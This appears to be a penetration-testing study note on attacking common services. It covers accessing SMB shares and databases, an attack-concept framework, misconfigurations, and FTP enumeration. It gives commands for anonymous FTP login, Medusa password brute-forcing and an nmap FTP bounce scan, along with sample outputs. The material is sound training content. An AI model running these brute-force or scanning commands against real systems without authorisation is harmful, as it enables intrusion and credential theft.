






# 🛠️ Attacking Common Services  
*In the vast networked domains, familiar services stand as both guardians and unwitting gateways to the abyss. This module guides the adept through the ritual of enumerating and probing these common sentinels, unveiling hidden weaknesses and ancient vulnerabilities ripe for exploitation.*

> *“Every open port is a whisper in the dark, waiting to be answered.”*

---

<details>
<summary><h1>📢 Introduction</h1></summary>

Vulnerabilities are often discovered by individuals who deeply understand a technology, protocol, or service. As we progress in this field, we will encounter a variety of services to interact with, requiring us to **continuously adapt and learn new technologies**.

To successfully attack a service, we must understand **its purpose, how to interact with it, which tools are available, and the potential actions we can perform**.

This section will explore **common services** and demonstrate practical ways to interact with them effectively.

<details>
<summary><h3>File Share Services</h3></summary>

A file-sharing service is a system that facilitates, manages, and monitors the transfer of computer files. Historically, organizations relied primarily on internal file-sharing protocols such as **SMB**, **NFS**, **FTP**, **TFTP**, and **SFTP**. However, with the widespread adoption of cloud technologies, many companies now also use **third-party cloud-based** solutions like **Dropbox**, **Google Drive**, **OneDrive**, **SharePoint**, and cloud storage services such as **AWS S3**, **Azure Blob Storage**, and **Google Cloud Storage**.

In practice, we will often encounter a hybrid environment where both internal and external file-sharing systems are in use. For example, a server may host internal SMB shares while also synchronizing data with cloud storage.

This section will focus primarily on **internal file-sharing services**, although the same principles can apply to cloud storage solutions that are synced locally to servers and workstations.

</details>

<details>
<summary><h3>Server Message Block (SMB)</h3></summary>

**SMB** is a network file-sharing protocol most commonly used in **Windows environments**. It enables users and applications to read, write, and manage files on remote servers as if they were local. In a Windows network, it is common to find **shared folders** accessible over SMB, often used for collaboration or centralized file storage.

We can interact with SMB shares through:
* **Graphical User Interface (GUI)** – e.g., Windows File Explorer.
* **Command-Line Interface (CLI)** – e.g., `net use`, `dir`, or PowerShell commands in Windows; `smbclient` in Linux.
* **Specialized tools** – e.g., Impacket scripts, CrackMapExec, enum4linux.

The following sections will outline common methods for accessing and interacting with SMB from both Windows and Linux systems.

<details>
<summary><h3>Windows</h3></summary>

<details>
<summary><h4>GUI Method</h4></summary>

**Step 1: Open the Run Dialog Box**

Press `WINKEY` + `R` on your keyboard.

**Step 2: Enter the SMB Share Path**

In the Run dialog box, type the file share location in the following format:

```cmd
\\<IP>\<SHARE_NAME>
```

**Step 3: Authenticate if required**

If prompted, enter valid username and password credentials for the remote system.

**Step 4: Browse the Share**

Once connected, you can view, copy, edit, or delete files according to your permissions.

</details>

<details>
<summary><h4>Windows CMD - DIR</h4></summary>

The command dir displays a list of a directory's files and subdirectories.

**Run the `dir` command on the share**

```cmd
dir  \\<IP>\<SHARE_NAME>
```
```cmd
C:\tom> dir \\192.168.220.129\Finance\

Volume in drive \\192.168.220.129\Finance has no label.
Volume Serial Number is ABCD-EFAA

Directory of \\192.168.220.129\Finance

02/23/2022  11:35 AM    <DIR>          Contracts
               0 File(s)          4,096 bytes
               1 Dir(s)  15,207,469,056 bytes free
```

</details>

<details>
<summary><h4>Windows CMD - Net Use</h4></summary>


**OPTION 1 > Step 1: Use `net use` to connect to the share**

```cmd
net use n: \\<IP>\<SHARE_NAME>
```

**OPTION 2 > Step 1: Use `net use` and provide a username and password to authenticate to the share**

```cmd
net use n: \\<IP>\<SHARE_NAME> /user:<USER> <PASSWORD>
```

With the shared folder mapped as the `n` drive, we can execute Windows commands as if this shared folder is on our local computer. Let's find how many files the shared folder and its subdirectories contain.

**Step 2: Find how many files the shared folder and its subdirectories contain.**

```cmd
dir n: /a-d /s /b | find /c ":\"
```

</details>

<details>
<summary><h4>Windows PowerShell - Get-ChildItem</h4></summary>

**Run the `Get-ChildItem` command on the share**

```powershell
Get-ChildItem \\<IP>\<SHARE_NAME>
```
```powershell
# PS C:\tom> Get-ChildItem \\192.168.220.129\Finance\

#     Directory: \\192.168.220.129\Finance

# Mode                 LastWriteTime         Length Name
# ----                 -------------         ------ ----
# d-----         2/23/2022   3:27 PM                Contracts
```

</details>

<details>
<summary><h4>Windows PowerShell - New-PSDrive</h4></summary>

**OPTION 1 > Step 1: Map the shared folder to a drive letter using `New-PSDrive`**

```powershell
New-PSDrive -Name "N" -Root "\\<IP>\<SHARE_NAME>" -PSProvider "FileSystem"
```

**OPTION 2 > Step 1: Provide a username and password with Powershell to map the shared folder to a drive letter using `New-PSDrive`**

```powershell
$username = '<USER>'
$password = '<PASWORD>'
$secpassword = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
New-PSDrive -Name "N" -Root "\\<IP>\<SHARE_NAME>" -PSProvider "FileSystem" -Credential $cred
```
```powershell
# Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
# ----           ---------     --------- --------      ----                                               ---------------
# N                                      FileSystem    \\192.168.220.129\Finance
```

**Step 2: Find how many files the shared folder and its subdirectories contain.**

```powershell
N:
(Get-ChildItem -File -Recurse | Measure-Object).Count
```

</details>

</details>

<details>
<summary><h3>Linux</h3></summary>

Linux (UNIX) machines can also browse and mount SMB shares. This works whether the target server is a **Windows machine** or a **Samba server**. While some Linux distributions include GUI support, we will focus on using **command-line utilities** and tools to interact with SMB.

> **NOTE:** We need to install `cifs-utils` to connect to an SMB share folder. To install it we can execute from the command line `sudo apt install cifs-utils`.

<details>
<summary><h4>Linux - Mount</h4></summary>

**OPTION 1 > Step 1: Mount an SMB share to interact with its directories and files locally**

```bash
sudo mkdir /mnt/<SHARE_NAME>
sudo mount -t cifs -o username=<USER>,password=<PASWORD>,domain=. \\<IP>\<SHARE_NAME>
```

**OPTION 1 > Step 2: Use a credential file to mount an SMB share to interact with its directories and files locally**

```bash
sudo mkdir /mnt/<SHARE_NAME>
sudo mount -t cifs \\<IP>\<SHARE_NAME> /mnt/<SHARE_NAME> -o credentials=./credential_file.txt
```

The file `credential_file.txt` has to be structured like this:

```txt
username=plaintext
password=Password123
domain=.
```

</details>

</details>

</details>

<details>
<summary><h3>Command Line Utilities</h3></summary>

<details>
<summary><h4>Linux - SQSH</h4></summary>

The `sqlcmd` utility lets you enter Transact-SQL statements, system procedures, and script files through a variety of available modes:

* At the command prompt.
* In Query Editor in SQLCMD mode.
* In a Windows script file.
* In an operating system (Cmd.exe) job step of a SQL Server Agent job.

```bash
sqsh -S <IP> -U <USER> -P <PASSWORD>
```

</details>

<details>
<summary><h4>Linux - SQLCMD</h4></summary>

```bash
sqlcmd -S <IP> -U <USER> -P <PASSWORD>
```

</details>

<details>
<summary><h4>Linux - MySQL</h4></summary>

**Start an interactive SQL Session using Linux**

```bash
mysql -u <USER> -p<PASSWORD> -h <IP>
```

</details>

<details>
<summary><h4>Windows - MySQL</h4></summary>

**Start an interactive SQL Session using Windows**

```bash
mysql.exe -u <USER> -p<PASSWORD> -h <IP>
```

</details>

</details>

<details>
<summary><h3>Tools to Interact with Common Services</h3></summary>

| **SMB**        | **FTP**      | **Email**                       | **Databases**                               |
|----------------|-------------|----------------------------------|---------------------------------------------|
| smbclient      | ftp         | Thunderbird                     | mssql-cli                                   |
| CrackMapExec   | lftp        | Claws                           | mycli                                       |
| SMBMap         | ncftp       | Geary                           | mssqlclient.py                              |
| Impacket       | filezilla   | MailSpring                      | dbeaver                                     |
| psexec.py      | crossftp    | mutt                            | MySQL Workbench                             |
| smbexec.py     |             | mailutils                       | SQL Server Management Studio (SSMS)        |
|                |             | sendEmail                       |                                             |
|                |             | swaks                           |                                             |
|                |             | sendmail                        |                                             |

</details>

<details>
<summary><h3>General Troubleshooting</h3></summary>

Depending on the **Windows** or **Linux** version we are working with or targeting, we may face various challenges when trying to connect to a service.

Common reasons for **lack of access** to a resource include:

* Authentication issues
* Insufficient privileges
* Network connectivity problems
* Firewall restrictions
* Unsupported protocols

Errors may vary depending on the specific service targeted. It’s important to leverage these **error codes** by consulting official documentation or community forums, where solutions to similar problems can often be found.

</details>

You can refer to the [GENERAL](./00-general.md) module to find different ways to explore and list files.

</details>

---

<details>
<summary><h1>🎯 Protocol Specific Attacks</h1></summary>

<details>
<summary><h2>The Concept of Attacks</h2></summary>

To effectively understand attacks on different services, we need to examine **how these services can be targeted**. A concept is a general plan or framework applied across various projects. For example, consider the concept of building a house: most houses have a basement, four walls, and a roof. While the specific materials or designs may vary, the basic structure remains consistent worldwide. This illustrates that a concept requires general categories—like floors, walls, and roof—that provide a flexible but unified framework.

In our context, we need to develop a concept for attacking various services by grouping them into categories that summarize all services while still allowing for individual attack methods.

To clarify, we can try grouping services like **SSH**, **FTP**, **SMB**, and **HTTP** and identify what they have in common. From there, we can build a structure or pattern that helps us pinpoint attack vectors across these services using a single, unified approach.

This process of analyzing commonalities and creating adaptable attack pattern templates is ongoing—it’s not a finished product but an evolving framework that grows and improves over time.

The concept is structured around four categories that appear in every vulnerability:

<details>
<summary><h3>1. Source</h3></summary>

We can generalize **Source** as the origin of information used by a process to perform a specific task. Information can be passed to a process in many different ways.

| Information Source | Description                                                                                                           |
|--------------------|-----------------------------------------------------------------------------------------------------------------------|
| Code               | The results of already executed program code used as a source of information. These can come from different functions of a program. |
| Libraries          | A collection of program resources, including configuration data, documentation, help data, message templates, prebuilt code and subroutines, classes, values, or type specifications. |
| Config             | Usually static or prescribed values that determine how the process handles information.                              |
| APIs               | Application Programming Interfaces used as program interfaces for retrieving or providing information.               |
| User Input         | Manual entry of information by a person, when a program allows user input to process data accordingly.               |

The Source is the origin exploited to trigger vulnerabilities. The specific protocol used is irrelevant—for example, HTTP header injections can be manipulated manually, just like buffer overflows.

</details>

<details>
<summary><h3>2. Process</h3></summary>

The **Process** refers to how information received from the Source is handled. This processing is carried out according to the task defined by the program code. For each task, developers specify how information should be processed—using classes, functions, calculations, loops, and more. Since development approaches vary widely, the possibilities are nearly endless. Consequently, most vulnerabilities stem from flaws in the program code executed during this process.

| Process Components | Description                                                                                                          |
|--------------------|----------------------------------------------------------------------------------------------------------------------|
| PID                | The Process ID (PID) identifies the process being started or already running. Running processes have assigned privileges, and new ones are started accordingly. |
| Input              | Refers to information input assigned either by a user or resulting from a programmed function.                       |
| Data processing    | The hard-coded functions of a program that dictate how the received information is processed.                         |
| Variables          | Placeholders for information that different functions can further process during the task.                           |
| Logging            | The documentation of certain events, often stored in a register or file, meaning some information remains in the system. |

</details>

<details>
<summary><h3>3. Privileges</h3></summary>

**Privileges** exist in all systems that manage processes. They act like permissions that determine which tasks and actions can be performed. Simply put, privileges are like a bus ticket: if you have a ticket for a specific region, you can ride the bus; if not, you cannot.

Similarly, privileges (or “tickets”) can apply to various modes of transport—planes, trains, boats, and so on. In computer systems, privileges control and segment actions, requiring different permissions that the system enforces.

When a process attempts to perform a task, the system checks if it has the necessary privileges. If the required permissions and conditions are met, the system approves the requested action.

| Privileges | Description                                                                                                          |
|------------|----------------------------------------------------------------------------------------------------------------------|
| System     | These are the highest privileges allowing any system modification. In Windows, this is called SYSTEM; in Linux, root. |
| User       | Permissions assigned to a specific user. For security, Linux often creates separate users for specific services.     |
| Groups     | Categorization of users who share certain permissions to perform specific actions.                                    |
| Policies   | Determine execution of application-specific commands, applying to individual or grouped users and their actions.      |
| Rules      | Permissions to perform actions managed within the applications themselves.                                           |

</details>

<details>
<summary><h3>4. Destination</h3></summary>

Every task has at least one purpose or goal that must be fulfilled. If data changes were neither stored nor forwarded, the task would generally be unnecessary. The outcome of a task is either stored locally or forwarded to another processing point.

This endpoint is called the **Destination**, where the data changes occur. Destinations can be either local or remote processes. At the local level, files or records may be modified, or data may be forwarded to other local services for further use. However, the same process may also reuse the resulting data.

Once the data is stored or forwarded, the cycle of the task is complete.

| Destination | Description                                                                                                               |
|-------------|---------------------------------------------------------------------------------------------------------------------------|
| Local       | The local area refers to the system environment where the process occurred. Results are either further processed or stored locally. |
| Network     | The network area involves forwarding process results to a remote interface, such as an IP address, its services, or entire networks. Under some circumstances, these results can also influence routing. |

</details>

> **NOTE:** While these categories are consistent across services, the specific details within each may vary depending on the service.

We now have a repeatable pattern template that can be applied to attacks. This template helps analyze and understand exploits, and it is useful for debugging our own exploits during development and testing. Additionally, it can be applied to source code analysis, enabling step-by-step review of specific functionalities and commands. Lastly, this approach allows us to evaluate the risks associated with each task individually.

</details>

<details>
<summary><h2>Service Misconfigurations</h2></summary>

Misconfigurations occur when system administrators, technical support, or developers incorrectly set up the security framework of an application, website, desktop, or server. This often creates vulnerable pathways that unauthorized users can exploit.

<details>
<summary><h3>Authentication</h3></summary>

In previous years—and occasionally even today during assessments—it was common for services to come with default credentials (username and password). This poses a significant security risk because many administrators fail to change these defaults.

Nowadays, most software requires users to set up credentials during installation, which is an improvement. However, default credentials can still be found, especially in older applications.

Even if there are no default credentials, administrators might use weak or no passwords initially, intending to change them later, which creates vulnerabilities.

To prevent this, administrators should define and enforce strong password policies for all software deployed or tested within their environment.

<details>
<summary><h4>Anonymous Authentication</h4></summary>

Another common misconfiguration is **anonymous authentication**. When enabled, the service allows anyone with network access to connect without requiring credentials, creating a serious security risk.

</details>

<details>
<summary><h4>Misconfigured Access Rights</h4></summary>

**Misconfigured access rights** occur when user accounts are granted incorrect permissions. A significant risk arises when individuals lower in the organizational hierarchy gain access to sensitive information intended only for managers or administrators.

</details>

</details>

<details>
<summary><h3>Unnecessary Defaults</h3></summary>

The initial configuration of devices and software often includes default settings, features, files, and credentials. These defaults are usually designed for ease of use rather than security. Leaving these defaults unchanged is a poor security practice, especially in production environments. Unnecessary default settings should be modified to reduce the system’s attack surface.

Accepting default settings during setup can expose sensitive company information. Attackers may exploit default credentials or weak settings with minimal effort, sometimes just by a quick internet search.

**[Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)** is listed in the **[OWASP Top 10](https://owasp.org/Top10/)**. Common issues related to default values include:
* Unnecessary features enabled or installed (e.g., open ports, unused services, default pages, accounts, or privileges).
* Default accounts and passwords remain enabled and unchanged.
* Error handling exposes stack traces or overly detailed error messages to users.
* On upgraded systems, new security features are disabled or improperly configured.

</details>

<details>
<summary><h3>Preventing Misconfiguration</h3></summary>

Once we understand our environment, the most effective way to control risk is to lock down critical infrastructure and allow only necessary behaviors. Any communication or service not required by the application should be disabled. Examples include:

* Disabling admin interfaces when not in use.
* Turning off debugging features.
* Disabling default usernames and passwords.
* Configuring servers to prevent unauthorized access, directory listing, and related issues.
* Running regular scans and audits to detect misconfigurations or missing patches.

The **OWASP Top 10** includes guidance on securing installation processes, emphasizing the importance of a repeatable hardening process:

* Use a consistent hardening procedure to quickly and easily deploy secure environments.
* Configure development, QA, and production environments identically but with different credentials per environment.
* Automate this process to minimize setup effort and errors.

Other best practices include:

* Maintain a minimal platform by removing or not installing unnecessary features, components, documentation, and sample code.
* Regularly review and update configurations to apply security notes, updates, and patches (see A06:2021 - Vulnerable and Outdated Components). Also, review cloud storage permissions, such as S3 bucket policies.
* Implement a segmented application architecture to enforce secure separation between components or tenants via segmentation, containerization, or cloud security groups (ACLs).
* Send security directives to clients, such as appropriate security headers.
* Automate verification processes to ensure configuration effectiveness across all environments.

</details>

</details>

<details>
<summary><h2>Finding Sensitive Information</h2></summary>

When attacking a service, we act like detectives — gathering as much information as possible and carefully observing every detail. Every single piece of information can be critical.

**Example Scenario**

* Target services: Email, FTP, Databases, Storage
* Goal: Achieve Remote Code Execution (RCE) on any service
* Initial enumeration: Tried anonymous access on all services
* Outcome: Only FTP allowed anonymous access
* Found an empty file named `johnsmith` in FTP
* Tried using "johnsmith" as FTP username and password — unsuccessful
* Tried same credentials on Email service — successful login
* Searched emails for "password" and found John’s MSSQL credentials
* Accessed the MSSQL database and used built-in functions to execute commands
* Successfully gained RCE on the database server

This shows how a seemingly insignificant piece of data (the empty file `johnsmith`) can lead to discovering valuable information and achieving the ultimate goal.

**Types of Sensitive Information to Look For**

Usernames
* Email Addresses
* Passwords
* DNS Records
* IP Addresses
* Source Code
* Configuration Files
* Personally Identifiable Information (PII)

**Covered Services for Information Discovery**

* File Shares
* Email
* Databases

**Understanding What to Look For**

Every target is unique, so it’s important to:

* Understand the target’s business model, purpose, and processes
* Determine what information is valuable to the target
* Know what type of information is useful for your attack

Two key elements for finding sensitive information:

1. Understand how the service works
2. Know exactly what you are looking for

</details>

</details>

---

<details>
<summary><h1>📄 FTP</h1></summary>

The **File Transfer Protocol (FTP)** is a standard network protocol used to transfer files between computers.
It also supports file system operations such as:

* Changing the working directory
* Listing files
* Renaming files or directories
* Deleting files or directories

**Default Port:**
* TCP/21

**Common Uses**
* Moving files between systems in software development environments
* Updating or deploying website content
* Sharing large datasets within an organization

<details>
<summary><h2>Attack Vectors</h2></summary>

When targeting an FTP server, there are several possible approaches:

1. **Misconfiguration or Excessive Privileges**
    * Anonymous access enabled
    * Improper file/directory permissions
    * Sensitive files stored in publicly accessible directories

2. **Exploiting Known Vulnerabilities**
    * Outdated FTP server software
    * Weak authentication mechanisms

3. **Discovering New Vulnerabilities**
    * Protocol-specific flaws
    * Vendor-specific bugs

</details>

<details>
<summary><h2>Post-Access Actions</h2></summary>

Once access is gained, you should:

* **Enumerate the directory contents** to identify sensitive or critical files

* **Check folder structure** — FTP typically uses a hierarchical directory structure:

* **Search for sensitive files**, such as:
    * Configuration files (`config.php`, `.env`)
    * Database dumps (`backup.sql`)
    * Source code files
    * Credentials

</details>

<details>
<summary><h2>Nmap Scan</h2></summary>

**Example Command**

```bash
sudo nmap -sC -sV -p 21 <TARGET_IP>
```

| Flag            | Purpose                                         |
|-----------------|-------------------------------------------------|
| `-sC`           | Run default NSE scripts (includes `ftp-anon`)   |
| `-sV`           | Detect service version and banner               |
| `-p 21`         | Scan only TCP port 21                           |
| `<TARGET_IP>` | Target IP address                               |

**Why This Matters**
* **Anonymous access** may expose files without authentication.
* **Version information** helps identify:
    * Known vulnerabilities
    * Possible exploits for the specific FTP server software

</details>

<details>
<summary><h2>Misconfigurations</h2></summary>

As discussed earlier, **anonymous authentication** can be enabled for services such as FTP.  
This can create serious security risks if not configured properly.

How Anonymous FTP Login Works
* **Username:** `anonymous`
* **Password:** *(empty)*

**Potential Risks**
If read/write permissions are **not** configured correctly:
* Sensitive files might be stored in folders accessible to anonymous users.
* Anyone could **download confidential data** without authentication.
* Attackers could **upload malicious scripts** to the server.

**Example Command**

```bash
ftp <TARGET_IP> <PORT>
```
```bash
# Connected to <TARGET_IP>.
# 220 (vsFTPd 2.3.4)
# Name (<TARGET_IP>:kali): anonymous
# 331 Please specify the password.
# Password:
# 230 Login successful.
# Remote system type is UNIX.
# Using binary mode to transfer files.

# ftp> ls

# 200 PORT command successful. Consider using PASV.
# 150 Here comes the directory listing.
# -rw-r--r--    1 0        0               9 Aug 12 16:51 test.txt
# 226 Directory send OK.
```

</details>

<details>
<summary><h2>Brute Forcing with Medusa</h2></summary>

**Example Command: **

```bash
medusa -u <USER_LIST> -P <PASSWORD_LIST> -h <TARGET_IP> -M ftp -n <PORT>
```
```bash
# Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>                                                      
# ACCOUNT CHECK: [ftp] Host: <TARGET_IP> (1 of 1, 0 complete) User: <USER> (1 of 1, 0 complete) Password: 123456 (1 of 14344392 complete)
# ACCOUNT CHECK: [ftp] Host: <TARGET_IP> (1 of 1, 0 complete) User: <USER> (1 of 1, 0 complete) Password: 12345 (2 of 14344392 complete)
# ACCOUNT CHECK: [ftp] Host: <TARGET_IP> (1 of 1, 0 complete) User: <USER> (1 of 1, 0 complete) Password: 123456789 (3 of 14344392 complete)
# ACCOUNT FOUND: [ftp] Host: <TARGET_IP> User: <USER> Password: <PASSWORD> [SUCCESS]
```

</details>

<details>
<summary><h2>FTP Bounce Attack</h2></summary>

An **FTP bounce attack** is a technique that abuses FTP servers to send network traffic to another device.  
This is achieved by manipulating the `PORT` command to make the FTP server connect to a different target.

**How It Works**

1. The attacker connects to an **FTP server** that is exposed to the internet (e.g., `FTP_DMZ`).
2. They use the `PORT` command to instruct the FTP server to interact with another host on the same internal network (e.g., `Internal_DMZ`).
3. The FTP server unknowingly **proxies requests** to the internal host.
4. This allows the attacker to:
   * Scan internal hosts
   * Identify open ports
   * Gather information for further exploitation

**Example Command**

```bash
nmap -Pn -v -n -p80 -b <USER>:<PASSWORD>@<ATTACKER_IP> <TARGET_IP>
```
```bash
# Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
# Resolved FTP bounce attack proxy to <ATTACKER_IP> (<ATTACKER_IP>).
# Attempting connection to ftp://anonymous:password@<ATTACKER_IP>:21
# Connected: 220 (vsFTPd 3.0.3)
# Login credentials accepted by FTP server!
# Initiating Bounce Scan at 04:55
# FTP command misalignment detected ... correcting.
# Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)

# Nmap scan report for <TARGET_IP>
# Host is up.

# PORT   STATE  SERVICE
# 80/tcp open  http
```

| **Flag** | **Purpose** |
|----------|-------------|
| `-Pn`    | Skip host discovery, treat all hosts as online. |
| `-v`     | Verbose output. |
| `-n`     | Disable DNS resolution. |
| `-p80`   | Scan only TCP port 80. |
| `-b`     | Perform FTP bounce scan (`user:pass@ftp_server target_ip`). |

> **NOTE:** FTP bounce attacks are deprecated in many modern FTP servers, but vulnerable implementations still exist in outdated or misconfigured environments.

</details>

</details>

---

<details>
<summary><h1>🗃️ SMB</h1></summary>

**Server Message Block (SMB)** is a protocol for sharing files and printers across networked systems.
Originally, SMB ran on **NetBIOS over TCP/IP** (TCP 139, UDP 137–138). Since Windows 2000, it can also run directly over **TCP 445**, which modern Windows systems use by default—though NetBIOS is still supported as a fallback.

**Samba** is the open-source SMB implementation for Unix/Linux, enabling interoperability with Windows clients.

When scanning, SMB on **port 445** indicates direct TCP usage, while **port 139** usually means SMB is running over NetBIOS.

**MSRPC (Microsoft Remote Procedure Call)** can run over SMB via named pipes, allowing functions to execute remotely without dealing with low-level networking.

<details>
<summary><h2>Attack Vectors</h2></summary>

**Attacking SMB** involves identifying its version, OS, and configuration. Potential vectors include:

* **Misconfigurations/excessive privileges**
* **Known or new vulnerabilities**
* **Sensitive shared files**
